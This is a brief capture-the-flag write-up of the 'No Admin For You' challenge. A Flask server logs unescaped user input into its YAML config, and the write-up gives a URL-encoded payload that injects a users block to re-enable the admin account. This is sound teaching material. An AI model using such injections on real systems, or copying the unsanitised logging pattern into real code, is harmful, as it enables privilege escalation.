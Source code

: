 # No Admin For You

Server:

```python
with open("/challenge/data.yml", "w") as o:
    o.write("users:\n")
    o.write("  admin:\n")
    o.write("    disabled: true\n")
    o.write("  hacker:\n")
    o.write("    disabled: false\n")
    o.write("logs:\n")

def panic(msg):
    with open("/challenge/data.yml", "a") as o:
        o.write(f"- {msg}")
    flask.abort(400, msg)

@app.route("/", methods=["GET"])
def challenge():
    users = yaml.safe_load(open("/challenge/data.yml"))["users"]
    user = flask.request.args.get("user")

    if user not in users:
        panic(f"unknown user {user}")
    if users[user].get("disabled", False):
        panic(f"disabled user {user}")

    if user == "admin":
        return f"""
            <html><body>
            YES! Your flag: {open("/flag").read()}
            </body></html>
        """
    else:
        return f"""
            <html><body>
            NO FLAG FOR YOU, HACKER!
            </body></html>
        """
```

We need to enable admin; can inject yaml through the panic() function: `/?user=random%0Ausers%3A%0A%20%20admin%3A%0A%20%20%20%20disabled%3A%20false`

```text
random
users:
  admin:
    disabled: false
```

Result YAML:

```yaml
users:
  admin:
    disabled: true
  hacker:
    disabled: false
logs:
- unknown user random
users:
  admin:
    disabled: false
```

Go to `/?user=admin` to claim the flag!
